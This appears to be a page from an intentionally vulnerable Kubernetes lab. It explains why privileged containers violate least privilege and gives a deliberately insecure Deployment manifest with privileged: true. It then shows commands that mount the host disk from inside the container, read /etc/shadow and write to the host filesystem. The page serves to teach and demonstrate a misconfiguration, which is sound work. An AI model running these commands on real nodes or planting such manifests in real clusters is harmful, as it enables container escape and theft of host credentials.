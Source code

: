 ```yaml
---
title: "K8S: Privileged Container"
author: rjulian
date: 2023-09-04 11:33:00 -0300
categories: [Kubernetes]
tags: [k8s, permissions]
---
```


## Overview

Running a container in privileged mode is a configuration option for pods requiring access to the host's (i.e. node) resources. This configuration option exists, as there're applications that will require some level of access to resources on the host. Keeping with the practice of least privilege, however, this should be strictly forbidden for pods that do not require it.

The CIS Benchmark for Kubernetes includes the recommendation `5.2.2 Minimize the admission of privileged containers`.

## Deployment

### Code
```yaml
apiVersion: v1
kind: Service
metadata:
  name: dvldb-privileged-container-service-c800b550
spec:
  ports:
    - port: 80
      targetPort: 8080
  selector:
    app: dvldb-privileged-container
  type: LoadBalancer
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: dvldb-privileged-container-deployment-c878e6e7
spec:
  replicas: 2
  selector:
    matchLabels:
      app: dvldb-privileged-container
  template:
    metadata:
      labels:
        app: dvldb-privileged-container
    spec:
      containers:
        - image: nginx:latest
          name: nginx
          ports:
            - containerPort: 8080
          securityContext:
            privileged: true
```

### Implementation

```bash
kubectl apply -f dvldb-privileged-container.k8s.yaml
```

## Exploitation

### Mount Host Filesystem

From within the container, you can mount filesystems within the `/dev` directory.

```bash
mount /dev/vda1 /tmp/devfs
ls /tmp/devfs/
cat /tmp/devfs/etc/shadow
touch /tmp/devfs/file
```

## Resources

* https://kubernetes.io/docs/concepts/security/pod-security-standards/
* https://www.cncf.io/blog/2020/10/16/hack-my-mis-configured-kubernetes-privileged-pods/
